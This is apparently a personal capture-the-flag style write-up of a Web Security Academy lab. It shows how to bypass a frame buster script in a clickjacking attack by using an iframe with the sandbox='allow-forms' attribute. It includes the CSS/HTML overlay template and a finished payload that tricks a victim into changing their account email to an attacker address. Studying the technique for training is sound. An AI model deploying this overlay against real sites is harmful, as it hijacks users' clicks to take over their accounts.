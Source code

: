 # Lab description
Lab to perform clickjacking bypassing a frame buster script that prevents the website from being framed.
The lab is the same as the previous clickjacking labs, with the need of bypassing this frame buster script.

# Writeup
The source code of the "Change password" page has this **frame buster script that checks if the windows is rendered as the top one, and if not, the page is not rendered:**
![](imgs/bypassing_frame_buster_script-1.png)
Therefore our previous methods don't work.

To bypass the frame buster script, we need to include a hidden iframe with a `sandbox` attribute set to `allow-forms` . The rest of the writeup is the same, finding the position that matches between the invisible iframe and the dummy button. This is the CSS that is given to us:
```css
<style>
  iframe {
    position: relative;
    width: $width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }

  div {
    position: absolute;
    top: $top_value;
    left: $side_value;
    z-index: 1;
  }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms" src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```
Remember that if we delete the sandbox attribute, the frame buster script is not bypassed and we can't perform clickjacking. Here is an example of what happens without sandbox attribute:
![](imgs/bypassing_frame_buster_script-2.png)

Modifying to match the width, heigth, top value and side value leads us to this overlay:
![](imgs/bypassing_frame_buster_script.png)

This is the final CSS:
```css
<style>
    iframe {
        position:relative;
        width:700;
        height: 500;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450;
        left:80;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="https://0ae700370308ee8a80bc1258009a000c.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

When uploading it and making the client perform the click, we solve the lab thus bypassing the frame buster script:
![](imgs/bypassing_frame_buster_script-3.png)

